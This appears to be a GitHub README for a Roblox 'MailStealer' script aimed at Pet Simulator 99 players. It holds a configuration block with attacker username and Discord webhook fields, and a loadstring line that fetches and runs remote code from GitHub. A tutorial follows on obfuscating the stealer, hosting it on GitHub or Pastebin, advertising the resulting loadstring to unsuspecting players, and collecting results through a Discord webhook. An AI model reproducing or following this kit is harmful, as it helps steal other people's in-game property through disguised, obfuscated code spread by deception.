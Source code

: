 # Script With Tutorial !

```
Username = "YOUR USERNAME"
Username2 = "ALT USERNAME"
Loading = "LOADING"
Webhook = "YOUR WEBHOOK"

loadstring(game:HttpGet("https://raw.githubusercontent.com/GengarScripts/MailStealer/main/PetSimulator99"))()
```

# Tutorial !

1: Edit mailstealer with your Username.

2: Save your stealer and Obfuscate it using MoonSec bot OR https://luaobfuscator.com/.

3: After u obfuscated save it and register/login on https://github.com/ to upload your script.

4: Create a repositorie and upload your obfuscated script (on github or pastebin).

5.1:Click This (Github)
![image](https://media.discordapp.net/attachments/1278849155271491649/1285960490056548475/Screenshot_2024-09-18_0842591.jpg?ex=66ec2b88&is=66eada08&hm=a481bd5e137b4f2b6d60826335d0343f0266835d972d035682652bba26996c45&=&format=webp&width=1440&height=49)

5.2:Click This (Pastebin)
![image](https://media.discordapp.net/attachments/1278849155271491649/1285960490564063312/Screenshot_2024-09-18_084521.jpg?ex=66ec2b88&is=66eada08&hm=ef569eac9f0175c9231f549578a20809a6dd483d5c53009ca7edc6f5427d2e80&=&format=webp)

6:And Click The Raw

7: Copy link

8: Put your link in this script
```lua
loadstring(game:HttpGet("YOUR LINK HERE", true))()
```

9: After u finished u got your loadstring script with mailstealer
Now all u have to do is adversite this script as u can
```
loadstring(game:HttpGet("Your Link Here", true))()
```
10: Create a Webhook Discord

![COMPUTER](https://discord.com/channels/1278845907667914924/1284239144238846037/1284239370173288518)

![PHONE](https://discord.com/channels/1278845907667914924/1284239144238846037/1284239508459491422)


